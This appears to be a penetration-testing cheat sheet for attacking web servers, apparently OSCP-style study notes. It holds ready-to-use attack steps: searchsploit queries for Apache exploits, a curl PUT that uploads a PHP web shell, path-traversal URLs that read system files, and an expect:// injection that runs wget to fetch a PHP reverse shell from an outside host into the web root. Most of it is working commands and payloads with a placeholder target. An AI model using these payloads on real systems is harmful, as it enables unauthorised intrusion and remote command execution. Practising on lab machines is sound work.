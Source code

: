 ```
site:exploit-db.com apache 2.4.7

# Remove dos-exploits

searchsploit Apache 2.4.7 | grep -v '/dos/'
searchsploit Apache | grep -v '/dos/' | grep -vi "tomcat"

# Only search the title (exclude the path), add the -t
searchsploit -t Apache | grep -v '/dos/'
```

### Manual Checks

```
Step 1:
View Source/Page for PII

Step 2: 
# Start Secondary Scans

# Get header and page
curl -i -L INSERTIPADDRESS

# Check if it is possible to upload using put
curl --user login:password --upload-file your.file.txt http://INSERTIPADDRESS
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php

# User-agent test
ua-tester -u http://INSERTIPADDRESS -d MDCTB

# Check for title and all links
dotdotpwn.pl -m http -h INSERTIPADDRESS -M GET -o windows

Step 3:
Burp
Send page to repeater
  Look for headers that can be fuzzed
  ID= that can be changed
Send cookies to sequencer
Send curious strings to decrypter
```

### LFI/RFI

```
# FImap
fimap -u "http://INSERTIPADDRESS/example.php" -v 3
http://kaoticcreations.blogspot.com/2011/08/automated-lfirfi-scanning-exploiting.html

# Checks
http://INSERTIPADDRESS/?page=../../../../windows/system32/drivers/etc/hosts
http://INSERTIPADDRESS/?page=../../../../windows/system32/drivers/etc/hosts%00
http://INSERTIPADDRESS/?page=%2f..%2f..%2fwindows/system32/drivers/etc/hosts
http://INSERTIPADDRESS/?page=%2f..%2f..%2fwindows/system32/drivers/etc/hosts%00

http://INSERTIPADDRESS/?page=expect://dir
*If you get a warning include() error it is not affected
Else for shell:
POST this with tamper data to http://INSERTIPADDRESS/gallery.php?page=expect://dir
<? system('wget http://10.11.0.150/php-reverse-shell.php -O /inetpub/wwwroot/shell.php');?>
Then navigate to
http://INSERTIPADDRESS/shell.php

```